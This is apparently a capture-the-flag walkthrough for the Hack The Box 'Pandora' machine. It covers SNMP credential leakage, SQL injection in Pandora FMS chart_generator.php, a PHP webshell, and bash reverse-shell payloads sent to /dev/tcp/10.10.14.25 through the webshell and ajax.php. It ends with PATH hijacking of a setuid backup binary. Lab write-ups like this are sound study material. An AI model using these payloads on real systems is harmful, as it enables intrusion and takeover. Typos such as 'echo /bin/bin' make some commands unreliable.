 - 10.10.11.136 leads to panda.htb web page
	- added to /etc/hosts
- nmap shows port 80 http and port 22 ssh
	```bash
nmap 10.10.11.136
nmap -sV -sT 10.10.11.136
```
	- Linux OS
	- Apache Server 2.4.41
- dirsearch finds assets subdirectory
	```bash
diresearch -u http://panda.htb
```
	- Assets shows a directory list with .svg images
		- maybe there is a file upload vulnerability?
			- XXE /XSSVulnerability
			- github link:
				https://github.com/makeplane/plane/security/advisories/GHSA-rcg8-g69v-x23j
				- The application allows users to upload SVG files as profile images without proper sanitization. SVG files can contain embedded JavaScript code that executes when the image is rendered in a browser. This creates an XSS vulnerability where malicious code can be executed in the context of other users' sessions.
				- How to upload file now..
- many loophles, the assets hold images, one of the images talks of plainadmin website. there are svg vulnerabilities. fuzzing and subdomain search is a bit difficult as pages return true always.
--------
- **But the key is to check udp ports for nmap**
	```bash
nmap -sU 10.10.11.136 #slower 
nmap -sU --min-rate=5000 10.10.11.136 #faster
```
## SNMP Enumration
- perform snmpwalk
	```bash
	snmpwalk -v 1 -c public 10.10.11.136
```
	- We find a username and password:
		```bash
iso.3.6.1.2.1.25.4.2.1.5.1101 = STRING: "-u daniel -p HotelBabylon23"
```
	- can ssh into machine as this user **but we cannot access user flag as its for user matt**
## More enumeration
- uname -a gives 
	- Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
- searchsploit pandora gives a bunch of exploits
- i found a ruby exploit but cant seem to transfer the file
- searching /var/www/
	- we find pandora extra folder with pandora console
	- this implies there maybe another virtual host
- search /etc/apache2/sites-available
	- we see in pandora.conf there is a locally hosted site
		- pandora.panda.htb hosted locally on 80
- **New technique**
	- now to get access to this site we need to forward it to our localhost via a port
	- ssh into daniel again but with -L to set a listener port which will forward this localhost to our machine's localhost ip
		```bash
ssh -L 9090:127.0.0.1:80 daniel@panda.htb
```
		- to check pass this command on your local machine to check if ssh is listening
			```bash
ss -lntp | grep "9090"
```
	- add pandora.panda.htb to localhost in /etc/hosts
	- access url via port 9090 to get login screen
----------
## Login Page Enumeration
- Googling the version of Pandora FMS v7.0NG.742_FIX_PERL2020
	- we find RCE exploit
		- https://www.sonarsource.com/blog/pandora-fms-742-critical-code-vulnerabilities-explained/
			- sql database in there
			- in line 72 of _chart_generator.php_, the user input is fetched from the `$_REQUEST` superglobal which contains GET and POST parameters, as well as cookie values. The latter is probably the reason why `get_parameter()` was not used here. The user input **`$_REQUEST['session_id']`** is passed to the constructor of the class `PandoraFMS\User` without any sanitization.
			- chart generator is vulnerable
			- /include path : checked url and leads to a directory with chat_generator.php file
		- https://www.exploit-db.com/exploits/50961
- need to capture session id to use for sqlmap
	- since we know we attack the session id of chat_generator.php
		```bash
http://pandora.panda.htb:9090/pandora_console/include/chart_generator.php?session_id=' show datases or 1=1-- -
```
	- we get sql error showing its vulnerable to SQLi
## SQLMAP enumeration
- enumerate with sqli 
	```bash
	```bash
sqlmap -u "http://pandora.panda.htb:9090/pandora_console/include/chart_generator.php?session_id=*" --batch --level=5 --risk=3 -D pandora -T tsessions_php --dump
```
	- FIRST PASSWD --dbs, found a database, then --tables to find tables then --dump a table step by step
	- found matt session_id
		- added the session id to my url
		- went back to pandora.panda.htb:9090 and was logged in
		- however Im not admin so only limited functionality
----
- **ALTERNATE METHOD FOR admin access to page (binary analysis) HARD FIND**
	- checking the table again we see
		- id_usuario|s:6:"daniel"
		- somethign similar for matt
		- the s value represents the characters (daniel is 6 characters)
		- add this to url :
			```bash
http://pandora.panda.htb:9090/pandora_console/include/chart_generator.php?sessionid=' union select 1,2,'id_usuario|s:5:"admin";'-- -
```
	- we get no error message and refreshion pandora.panda.htb:9090 we get admin access
		- we try to upload php code into file manager (shows its in image directory so can url into pandora_console/images to see and execute)
		- Three methods:
			- upload pentest monkeys php reverse shell with creds and listen on port.
			- manually we can create a php code that calls a command line
				```php
<?php
system($_REQUEST['cmd']);
?>
```
				- Upload and open file in images directory
				- pass url to check if working
				```php
http://pandora.panda.htb:9090/pandora_console/images/shell.php?cmd=whoami
```
				- we get response matt
				- open burpsuite and capture this
					- change request type to post
					- pass this command at the bottom (a blank line in between the request and this)
					```bash
cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.25/9998 0>&1'
```
					- Select everything from after "cmd=" and press Ctrl+U to url encode and then send the packet while listening on port 9998.
						- we get reverse shell 
-----------
- **Another way to get reverse shell without admin access**
	- php ajax.php vulnerability
		- capture packets via burp suite as matt logs in
	- we find an ajax.php file
		- https://www.coresecurity.com/core-labs/advisories/pandora-fms-community-multiple-vulnerabilities
			- can execute exploit in this post request
				```bash
page=include/ajax/events&perform_event_response=10000000
&**target=bash -c 'bash -i >& /dev/tcp/10.10.14.25/9998 0>&1'&response_id=1
```
		- we also need to url encode it (Ctrl+U in Burp Suite)
			```bash
page=include/ajax/events&perform_event_response=10000000
&target=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.25/9997+0>%261'&response_id=1
```
		- have netcat listener listening on port 9997
			- to gain access at matt user
## Privilege escalation
- on enumerating we do 
	```bash
find / -type f -perm -4000 2>/dev/null
```
	- and we find pandora_backup with root priv
		- yet we cant execute it
		- this is due to a restricted shell
			- why? we tried sudo -l and it gave a weird error:
				```bash
sudo: PERM_ROOT: setresuid(0, -1, -1): Operation not permitted
sudo: unable to initialize policy plugin
```
			- 
			- https://gtfobins.github.io/gtfobins/at/#shell
				- can use at to break of of restricted shell
				```bash
# tried but didnt work
```
		- alternatively, create a ssh key in your local machine and send it to target "
			```bash
python -m http.server:8001 # where you have the key
in target matchine /home/matt.ssh: wget 10.10.14.25:8001/matt.pub #get public key to .ssh directory
mv matt.pub authorized_keys
chmod 600 authorized_keys # VERY IMPORTANT
in local machine : chmod 600 matt
ssh -i matt matt@10.10.11.136 # should not get password prompt
```
		- then in shell create tar file and make it executable with /bin/bash as entry(why? if you look at pandora_backup which we want to execute, that is the command which gets use root)
		- create path to current directory
			```bash
echo /bin/bin > tar
chmod +x tar
export PATH=$(pwd):$PATH
echo $PATH # should show current direvtory first now
/usr/bin/pandora_backup
```
		- we gain root access
-------
## The Priv Esc exploit in pandora_backup
- on doing strings or Ghidra we can find the main code of pandora_backup
	```bash
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*
```
	- we create atar file with the command /bin/bash into it and make it executable. 
	- Furthermore we check the $PATH as thats what the command path checks when executing. We change this to our current directory 
		```bash
export PATH=$(pwd):$PATH
echo $PATH
```
	- then we execute pandora_backup which calls that command but since there is a tar executable in our current working directory.
	- since this runs as setuid it runs as root so hen /bin/bash is executed in our altered tar executable, it executes the root shell for us.

